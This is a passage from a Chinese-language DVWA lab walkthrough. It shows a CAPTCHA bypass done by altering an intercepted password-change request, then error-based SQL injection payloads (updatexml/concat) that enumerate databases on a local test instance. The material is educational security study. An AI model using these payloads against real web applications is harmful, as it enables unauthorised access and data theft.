 同样是抓包修改参数`HTTP_USER_AGENT`和`g-recaptcha-response` 

```http
User-Agent: reCAPTCHA

step=1&password_new=1&password_conf=1&g-recaptcha-response=hidd3n_valu3&user_token=73c5e811ef332d2556e6a7b87151ff2c&Change=Change
```

攻击成功

### impossible

![image-20221130200707448](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071441929.png)

同样的，我都知道当前密码了，还破解什么





## SQL Injection（SQL注入）

> 联合查询注入、报错注入、时间盲注、布尔盲注

### low

> 报错注入

1. 先确定有没有报错信息

   输入'1'，可以看到错误信息

   ![image-20221130234655912](D:\OneDrive - mail.ynu.edu.cn\note\typoranote\DVWA.assets\image-20221130234655912.png)

   因此可以使用报错注入

2. 使用函数`updatexml()`和`concat()`构造sql语句

   > updatexml()可以将报错信息返回
   >
   > concat()本身是一个字符串拼接函数，同时可以执行SQL语句

   ```sql
   -- 发起请求的模式 只需要修改'abc'即可
   http://127.0.0.1/vulnerabilities/sqli/?id=' and updatexml(1,concat('!',('abc'),'!'),1) -- &Submit=Submit
   ```

   报错信息形如

   ![image-20221130235918932](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071441386.png)

3. 获取当前以及其他所有数据库

   ```sql
   -- 当前
   http://127.0.0.1/vulnerabilities/sqli/?id=' and updatexml(1,concat('!',(
   database()
   ),'!'),1) -- &Submit=Submit
   
   -- 返回信息：XPATH syntax error: '!dvwa!'
   
   -- 其他
   http://127.0.0.1/vulnerabilities/sqli/?id=' and updatexml(1,concat('!',(
   select schema_name from information_schema.schemata limit 0,1
   ),'!'),1) -- &Submit=Submit
   
   -- limit 0,1 返回信息：XPATH syntax error: '!dvwa!'
   -- limit 1,1 返回信息：XPATH syntax error: '!information_schema!'
   ```

